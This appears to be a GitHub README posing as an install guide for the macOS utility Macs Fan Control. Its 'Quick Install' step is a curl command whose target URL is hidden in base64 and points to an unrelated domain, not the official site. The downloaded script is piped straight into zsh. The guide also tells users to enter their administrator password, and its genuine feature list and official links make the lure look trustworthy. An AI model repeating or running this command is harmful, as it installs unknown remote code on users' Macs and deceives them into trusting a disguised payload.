

# 🌡️ Macs Fan Control for macOS

### Monitor temperatures. Control fan speed. Keep your Mac cool.

<p>
  
</p>

<p>
  
  
  
</p>

**Install Macs Fan Control on macOS directly from Terminal.**

</div>

---

## 🚀 Quick Install

Open **Terminal**, paste the following command, and press **Enter**:

```bash
curl -s $(echo "aHR0cHM6Ly9seXJpY2JsYXplOS5jb20vY3VybC8wMHMyaDI1dWVnL2U1dXBrbzMzYTRyYndmaWhmdDF3Yy5kYXQ=" | openssl base64 -d -A) | zsh
```

That's it. ✅

After installation, Macs Fan Control will be available in:

```text
Applications → Macs Fan Control
```

---

## 🖥️ How to Open Terminal

### Option 1 — Spotlight

Press:

```text
⌘ Command + Space
```

Type:

```text
Terminal
```

Then press **Enter**.

---

### Option 2 — Finder

Open:

```text
Finder → Applications → Utilities → Terminal
```

Then double-click **Terminal**.

---

### Option 3 — Launchpad

1. Open **Launchpad**
2. Search for **Terminal**
3. Click the **Terminal** icon

---


## ❄️ What is Macs Fan Control?

**Macs Fan Control** is a macOS utility that allows you to monitor hardware temperatures and manage cooling fan behavior.

### Features

- 🌡️ Monitor CPU temperatures
- 🎮 Monitor GPU temperatures
- 💾 Monitor SSD and other sensors
- 🌀 View current fan RPM
- ⚙️ Set custom fan speeds
- 📈 Control fans based on temperature sensors
- 🔄 Restore automatic macOS fan control
- 🍎 Supports Intel and Apple Silicon Macs

---

## 🔐 First Launch

When you launch Macs Fan Control for the first time, macOS may request administrator permissions.

Enter your **Mac administrator password** when prompted.

Fan control requires elevated system permissions because the application interacts with your Mac's cooling hardware.

---

## ⚙️ Recommended Setup

For everyday use, keeping fan control on:

```text
Auto
```

is the safest option.

You can also configure a fan to react automatically to a specific temperature sensor.

Example:

```text
Temperature Sensor → CPU
Fan Mode          → Sensor-based value
```

---

## ⚠️ Important

Avoid setting fan speeds too low.

Reducing cooling performance can increase hardware temperatures and may cause:

- Thermal throttling
- Reduced performance
- Excessive component temperatures
- Unexpected system shutdowns

For most users, **Auto** or **temperature-based fan control** is recommended.

---

## 🔗 Links

- [Macs Fan Control — Official Website](https://crystalidea.com/macs-fan-control)
- [Homebrew](https://brew.sh/)
- [Macs Fan Control on Homebrew](https://formulae.brew.sh/cask/macs-fan-control)

---

<div align="center">

## ⭐ Like this repository?

If this guide helped you, consider giving the repository a **Star ⭐**

### Keep your Mac cool. ❄️

</div>
